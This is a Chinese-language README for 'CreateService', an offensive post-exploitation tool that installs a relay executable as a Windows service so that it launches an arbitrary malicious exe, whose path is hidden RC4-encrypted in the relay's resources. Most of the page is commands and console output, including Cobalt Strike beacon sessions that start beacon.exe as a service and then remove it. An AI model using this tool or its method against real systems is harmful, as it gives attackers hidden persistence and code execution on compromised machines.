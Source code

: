 # CreateService

## 文件说明

- CreateService : 创建服务与删除服务主程序
- CreateServiceDll ： 创建服务与删除服务rdi
- TransitEXE ：媒介程序

```
C:\Users\Administrator\Desktop>CreateService.exe "C:\Users\Administrator\Desktop\TransitEXE.exe" "C:\Users\Administrator\Desktop\test.exe" test start
[*] CreateService by Uknow
    [+] ServiceName: test
    [+] TransitPathName: C:\Users\Administrator\Desktop\TransitEXE.exe
    [+] EvilPathName: C:\Users\Administrator\Desktop\test.exe
    [+] Success! Service successfully Create and Start.
```

程序将TransitEXE.exe创建为服务，并将路径`C:\Users\Administrator\Desktop\test.exe`进行rc4加密（密钥为当前计算机的环境变量PROCESSOR_REVISION）写入`C:\Users\Administrator\Desktop\TransitEXE.exe`的资源文件中。

服务创建成功后，TransitEXE.exe从自身的资源中解密获取到恶意exe的路径并运行。

这样就只需要提供恶意exe即可，免除临时编译服务模块代码。



## Cobalt Strike RDI
```
beacon> CreateService C:\Users\Administrator\Desktop\TransitEXE.exe C:\Users\Administrator\Desktop\beacon.exe test start
[*] Tasked beacon to spawn CreateService ....
[+] arguments are:C:\Users\Administrator\Desktop\TransitEXE.exe C:\Users\Administrator\Desktop\beacon.exe test start
[+] host called home, sent: 103053 bytes
[+] received output:
[*] CreateService by Uknow
    [+] ServiceName: test
    [+] TransitPathName: C:\Users\Administrator\Desktop\TransitEXE.exe
    [+] EvilPathName: C:\Users\Administrator\Desktop\beacon.exe
    [+] Success! Service successfully Create and Start.

beacon> CreateService C:\Users\Administrator\Desktop\TransitEXE.exe C:\Users\Administrator\Desktop\beacon.exe test stop
[*] Tasked beacon to spawn CreateService ....
[+] arguments are:C:\Users\Administrator\Desktop\TransitEXE.exe C:\Users\Administrator\Desktop\beacon.exe test stop
[+] host called home, sent: 103052 bytes
[+] received output:
[*] CreateService by Uknow
    [+] ServiceName: test
    [+] TransitPathName: C:\Users\Administrator\Desktop\TransitEXE.exe
    [+] EvilPathName: C:\Users\Administrator\Desktop\beacon.exe
    [+] Success! Service successfully Stop and Delete.
```

